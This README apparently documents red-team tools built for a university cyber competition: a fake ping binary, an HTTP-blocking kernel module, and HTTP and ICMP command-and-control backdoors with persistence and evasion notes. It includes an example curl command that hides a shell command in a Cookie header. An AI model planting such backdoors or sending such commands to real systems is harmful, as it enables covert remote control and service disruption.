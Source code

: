 # Red Team Tools

Each of the tools below was developed by Jack Dunfey for the Internal Lockdown competition at the University at Buffalo.

Each of their folders has an individual README with more information 

## Malicious Ping

This is a C program that can be compiled to replace the ping binary on a system.
It will seem successful for any properly formed IP address or valid DNS name.

<!-- Add images here -->

## HTTP Takedown Kernel Module

This is a kernel module that when installed will block HTTP requests for X minutes every Y minutes. X and Y can be set using macros at the top of the file.

## HTTP C2

Creates a service called processd that runs a program that listens for commands hidden in the headers of an HTTP request

Example Attack:
`curl $VICTIM_IP -A "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/420.69 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36" -H "Cookie: $CMD" -H "Upgrade-Insecure-Requests: $RETURN_PORT" > /dev/null 2>&1`

## ICMP C2

Creates a service called icmp that "replaces" the kernels responses to icmp echo requests with its own. It will respect the contents of the `net.ipv4.icmp_echo_ignore_all`.

If IP packet has a ttl of 45, 65, 31, or 17, the service will execute the payload and the response will be the output of the command.

<!-- TODO: 
- Should make the code timeout and send decoy response to avoid suspicion -->

Multithreading and restart on failure added for persistence.
